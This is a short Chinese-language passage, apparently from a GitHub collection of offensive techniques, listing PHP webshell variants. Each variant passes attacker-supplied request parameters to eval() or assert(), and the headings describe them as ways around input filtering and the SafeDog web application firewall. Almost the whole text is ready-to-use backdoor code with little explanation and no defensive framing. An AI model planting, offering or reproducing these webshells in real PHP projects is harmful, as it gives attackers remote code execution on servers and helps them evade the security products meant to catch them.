 **filter_input污染源绕过**

```php
<?php

$a = filter_input(INPUT_GET,'shell');

eval($a);

?>
```

filter_input也可以接受外部参数，如下例中通过传入参数`shell`即可执行代码。


![](img/30.png)

---

**过安全狗 且版本可>7.0**

**通过常量 **
```php
<?php
define("shell","$_REQUEST[shell]"); 
eval(shell);
?>
```

**通过函数强行分割**
```php
<?php
function a($a){
    return $a;}
eval (a($_REQUEST)['shell']);
?>
```

**使用end()函数来代替**
```php
<?php eval(end($_REQUEST)); ?>
```

**函数组合**
```php
<?php
$value=$key = "a";
foreach($_POST as $key=>$value){
    assert($value);
}
```
